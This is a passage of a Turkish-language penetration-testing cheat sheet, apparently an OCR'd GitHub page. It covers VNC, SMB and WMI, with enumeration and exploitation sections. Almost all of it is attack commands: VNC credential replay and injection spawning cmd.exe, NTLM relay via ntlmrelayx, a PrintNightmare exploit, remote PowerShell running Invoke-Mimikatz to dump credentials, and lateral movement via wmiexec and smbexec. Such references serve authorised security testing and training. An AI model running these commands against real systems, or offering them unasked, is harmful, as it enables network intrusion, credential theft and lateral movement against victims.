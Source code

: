 ### Gelişmiş Exploitation
**Kimlik Bilgisi Yeniden Oynatma Saldırısı:**
```bash
vncpwn <hedef-ip> <port> <kimlik-bilgileri>
```
**VNC Enjeksiyonu Başlatma:**
```bash
vnc-inject.py -t <hedef-ip> -c "cmd.exe"
```

---

## 6. Server Message Block (SMB)
### Gelişmiş Enumeration
**Yazılabilir Paylaşımları Listeleme:**
```bash
smbmap -H <hedef-ip> -u <kullanıcı-adı> -p <şifre>
```
**SMB Signing Tarama:**
```bash
crackmapexec smb <hedef-ip> --gen-relay-list relay_hosts.txt
```

### Gelişmiş Exploitation
**NTLM Relay Saldırısı:**
```bash
ntlmrelayx.py -tf relay_hosts.txt -smb2support
```
**PrintNightmare Exploit:**
```bash
impacket-printnightmare <hedef-ip> "\paylasim\path"
```

---

## 7. Windows Management Instrumentation (WMI)
### Gelişmiş Enumeration
**Aktif Oturumları Kontrol Etme:**
```bash
wmic /node:"<hedef-ip>" computersystem get username
```
**Impacket ile Sistem Bilgilerini Toplama:**
```bash
wmiexec.py <kullanıcı-adı>:<şifre>@<hedef-ip>
```

### Gelişmiş Exploitation
**Uzaktan PowerShell Çalıştırma:**
```bash
wmiexec.py <kullanıcı-adı>:<şifre>@<hedef-ip> "powershell.exe -Command \"Invoke-Mimikatz\""
```
**WMI Tabanlı Yanal Hareket:**
```bash
smbexec.py <kullanıcı-adı>:<şifre>@<hedef-ip>
```

---